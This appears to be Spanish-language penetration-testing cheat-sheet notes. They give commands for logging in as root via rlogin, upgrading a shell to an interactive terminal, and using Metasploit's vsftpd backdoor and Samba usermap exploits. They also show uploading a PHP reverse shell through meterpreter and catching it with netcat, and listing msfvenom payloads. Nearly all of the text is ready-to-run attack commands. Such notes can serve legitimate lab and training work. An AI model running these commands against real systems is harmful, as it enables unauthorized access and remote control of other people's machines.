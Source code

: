 ### Rlogin

```sh
apt install rsh-client
rlogin -l root {TARGET}
```

### Terminal Basica --> Terminal Interactiva

```sh
python -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl + Z para segundo plano
stty raw -echo;fg;ls; export SHELL=/bin/bash;export TERM=screen # traer tarea
```

Con metasploit ( meterpreter )

```sh
msf6 > 
use exploit/unix/ftp/vsftpd_234_backdoor
[ Ctrl + Z ] 
sessions -u 1 # sessions -l 
sessions -i 2
```

```sh
cp /usr/share/webshells/php/php-reverse-shell.php . # cambiar ip a atacante y puerto para netcat 8000
meterpreter > upload ./Escritorio/php-reverse-shell.php /var/www/phpshell.php
meterpreter > chmod 644 /var/www/phpshell.php
nc -nvlp 8000
http://{TARGET}/phpshell.php
```

### Reverse Netcat

```sh
msf6 > 
use multi/samba/usermap_script
```



## Payloads

**Inline/stageless/single** 
  - utiliza la vulnerabilidad y ejecuta todo el codigo en la victima

**Staged**
  - No se envia de golpe, se envia por fases
  1) Pone en contacto con la victima (Stager/dropper)
  2) stage

### Msfvenom

```sh
msfvenom -l payloads # Listar payloads
msfvenom -l payloads | grep -i unix | grep -i meterpreter
```
